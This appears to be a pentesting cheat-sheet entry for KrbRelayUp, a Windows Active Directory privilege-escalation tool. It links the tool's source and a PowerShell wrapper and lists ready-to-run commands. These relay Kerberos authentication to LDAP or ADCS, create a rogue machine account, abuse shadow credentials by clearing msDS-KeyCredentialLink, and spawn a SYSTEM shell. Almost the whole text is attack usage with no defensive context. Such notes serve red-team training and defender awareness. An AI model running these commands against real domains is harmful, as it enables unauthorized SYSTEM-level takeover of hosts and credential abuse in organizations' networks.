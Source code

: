 ### Source
https://github.com/Dec0ne/KrbRelayUp
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-KrbRelayUp.ps1

### Relay ldap request to local Service Manager, -c = create new machine account (requires LDAP Signing not to be enforced)
```
KrbRelayUp.exe relay -d <domain> -c -cn <newComputer> -cp <newPassword>
```

### Request TGS to create new service running as SYSTEM
```
KrbRelayUp.exe spawn -d <domain> -cn <newComputer> -cp <newPassword> 
```

### Start SYSTEM cmd shell, -f = force shadow (clear msDS-KeyCredentialLink before adding new shadow creds)
```
KrbRelayUp.exe full -m shadowcred -f
```

### Relay machine kerberos auth to ADCS Web Enrollment (instead LDAP), -ca = default is domain controller
```
KrbRelayUp.exe full -m adcs -ca <certificateAuthorityFqdn>
```

